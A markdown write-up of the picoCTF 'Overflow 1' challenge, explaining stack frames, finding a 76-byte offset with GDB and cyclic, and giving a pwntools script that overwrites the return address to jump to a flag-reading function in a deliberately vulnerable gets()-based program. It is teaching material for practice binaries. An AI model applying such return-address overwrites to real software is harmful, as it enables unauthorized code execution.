








[Back](PicoFrontPage.md)

# Overflow 1
---
> *What do you desire?*
> - Rachel

### Intro

Welcome to Overflow 1!!!

Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them. We will be focusing on buffer overflow (hence the name, overflow 1) to manipulate things we SHOULDN'T be able to (I'm looking at you, **gets()**).

### Tools
* GEF-GDB
* Pwntools - Python3
* Some Python tools
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

Now this is just a personal thing, but I like to try solve it without the source code and only look at it when I need help. But you are absolutely more than welcome to look at it.

### Intro-2

Now, let's begin...

First off, there are two ways analyze this, static and dynamic analysis (we will be learning through both, together <3). Essentially it's just offline vs. executing, respectively.

Secondly, I prefer to do the challenges locally, create a dummy flag.txt file with some contents and then clear it properly after I've tested it and know it works (more on this later).
I like doing it locally on my VM because the shell server that they provide you with doesn't come with all the tools that I would like to use (e.g. preferred disassembler and debugger, pwntools, etc.).
But you can do it whichever way you want - consider all options!!

If you would prefer to do it locally too, you can download it however and in the directory you want, wgets, etc... - `wgets "copied-link"`
If you would prefer to do it on the shell server, just login and cd into the directory with the problems, provided with the question.

Now, mind you, that I'm not sure what the differences between python2 and python3 pwntools are, I just started and learned with the newer tech, so you're going to have to look it up... Haha... Unless..?

#### Functions and Function Calls

The biggest thing we need to focus on is, how do function calls work?

Well, when a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

So `call` is equal to `push`-ing the the old base pointer onto the stack and then `mov`-ing the base pointer to the stack pointer.
`leave` is equal to `pop`-ing and `mov`-ing.

<!-- Insert BasicCall -->


Note: keep in mind that the stack will grow downwards towards the heap, but I drew it going upwards because that's how I'm used to seeing it...
If you're used to the other way, just flip it.
Also, sizes of these registers are 32-bit in x86 32-bit, and are thus 4-bytes each. 

### Static Analysis

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->


If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->


We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->


As I mentioned earlier, call equals push the old base pointer onto the stack and mov base pointer to stack pointer, and this is evident in the first two lines.
But we can also see that another register `$register name` is pushed onto the stack, and then a buffer is assigned.
If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
**NEVER USE THIS**

<!-- Screenshot of man page -->


The reason why `gets` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->


And thus, we can see that the buffer is `0x44`, ebx is `0x4`, ebp is `0x4` and eip is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except eip), we can see that, to reach eip, it is `0x4c` in hex.
Using Python on command line, we can see that 0x4c translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

Don't you want to see the truth to this program?

### Dynamic Analysis

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address (vuln+33 calls get_return_address, I would assume that's where it's from, and you can check using the source code if you want)

#### GEF-GDB

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->


We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach "taaa" or the instruction pointer.
We get the output of 76 and that just confirms our static analysis.

1 + 1 = 2 and everything is good about the world.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

There are many methods of executing the exploit.
I have seen many people creating the payload through command line and piping that through to the file if that's more up your alley.

#### Pwntools

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

Run the exploit through python and it should look something like this:
(For me it's `python3 script-name`)

<!-- Overflow1DONE screencap -->


<!-- feelsgood -->


Yay!

Please keep in mind that you have to have a flag file so that the program can actually read it, otherwise it'll give some rubbish about contacting an admin.

[Overflow 2](overflow2writeup.md)
